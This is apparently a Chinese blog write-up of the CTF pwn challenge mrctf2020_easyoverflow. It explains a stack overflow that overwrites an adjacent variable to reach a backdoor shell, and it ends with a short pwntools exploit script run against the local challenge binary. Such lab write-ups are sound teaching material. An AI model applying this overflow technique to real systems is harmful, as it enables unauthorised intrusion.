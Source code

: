 ```yaml
---
title: '{文件名}'
date: 2024-11-11 13:00:00 +0800
categories: [uaf,malloc_hook,unsortbin_leaklibc]
tags: [ctf,pwn]
---
```

![image-20240113121646708](../assets/img/old_imgs/image-20240113121646708.png)

![image-20240113121700354](../assets/img/old_imgs/image-20240113121700354.png)

- 控制栈上参数
- 程序控制流

```shell
bamuwe@qianenzhao:~$ checksec mrctf2020_easyoverflow
[*] '/home/bamuwe/mrctf2020_easyoverflow'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
```

1. 保护全开,考虑利用程序自身的代码

2. 程序中存在后门,理解程序流

   关键在于`check`函数中,只要`a1(v5) == fake_flag`就可以得到`shell`

3. 通过ida可知`v5`在栈上的位置和`fake_flag`的内容

   ![image-20240113122354712](../assets/img/old_imgs/image-20240113122354712.png)

   ![image-20240113122428149](../assets/img/old_imgs/image-20240113122428149.png)

4. 构造`payload`通过填充`v4`的空间溢出到`v5`进而控制`v5`变量的内容

```python
from pwn import *
io = process('./mrctf2020_easyoverflow')
#io = gdb.debug('./mrctf2020_easyoverflow')
payload = b'A'*48+b'n0t_r3@11y_f1@g\x00'
io.sendline(payload)
io.interactive()
```

